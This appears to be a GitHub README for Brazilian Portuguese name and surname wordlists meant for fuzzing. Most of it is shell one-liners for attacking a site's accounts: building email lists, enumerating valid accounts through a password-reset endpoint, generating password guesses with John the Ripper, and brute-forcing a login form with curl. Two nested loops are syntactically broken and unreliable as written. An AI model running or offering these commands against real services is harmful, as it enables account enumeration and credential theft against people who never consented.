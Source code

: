 # Wordlists-PT-BR
Wordlists em PT-BR, desde nomes, sobrenomes, e em breve adicionaremos endpoints em português para fuzzing. Todas as informações foram extraídas de fontes públicas.


### Criar wordlist de emails concatenando `nome.sobrenome@domain.com`
```
./wlcreator.sh nomes.txt . sobrenomes.txt domain.com emails.txt
```
### Brute Force para encontrar emails válidos - Reset Password
```
for email in `cat emails.txt`; do curl -X POST --data "email=$email" "https://domain.com.br/reset-password" -s; done
```
or
```
for nome in `cat nomes.txt`; for sobrenome in `cat sobrenomes.txt`; do curl -X POST --data "email=$nome.$sobrenome@domain.com.br" "https://domain.com.br/resetpassword" -s ; done
```
### Gerar mutação de senha através de poucos nomes fornecidos no txt
```
john --rules=all --stdout --wordlist=nomes.txt > passwords.txt 
```
### Brute Force - Login
```
for email in `cat emails.txt`; for password in `cat passwords.txt`; do curl -X POST --data "email=$email&password=$password" "https://domain.com.br/login" -s; done
```
